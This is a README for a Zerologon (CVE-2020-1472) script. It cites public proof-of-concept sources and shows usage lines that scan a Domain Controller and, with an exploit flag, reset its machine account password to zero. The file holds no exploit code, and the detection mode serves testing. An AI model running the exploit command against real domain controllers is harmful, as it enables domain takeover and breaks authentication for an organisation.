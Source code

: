 # Zerologon Exploit Script

This script is used to test and exploit unpatched Domain Controllers for the Zerologon Vulnerability (CVE-2020-1472).
More information on this vulnerability can by found here:

https://www.secura.com/blog/zero-logon

The PoC code for detection was provided by SecuraBV and can be found here:

https://github.com/SecuraBV/CVE-2020-1472

The exploit code has been provided by two sources:

https://github.com/dirkjanm/CVE-2020-1472

https://github.com/cube0x0/CVE-2020-1472

## Requirements

The latest version of impacket from GitHub is needed for this attack, and at the time of writing, the 
impacket library nrpc.py was not updated and is needed to be imported locally. This can be found
in the github repository from cube0x0 shown above.

## Usage

```
usage: zerologon.py [-h] [-x] N [N ...] IP [IP ...]

Tests whether a domain controller is vulnerable to the Zerologon attack.

positional arguments:
  N              Netbios name of the Domain Controller
  IP             IP address of the DOmain Controller

optional arguments:
  -h, --help     show this help message and exit
  -x, --exploit  Exploit the target
```

## Example

```python3 zerologon.py NETBOIS_NAME X.X.X.X```

Scans the target for the vulnerability

```python3 zerologon.py NETBIOS_NAME X.X.X.X -exploit```

Scans the target then sets the account ("DC\_NAME$") password to 0


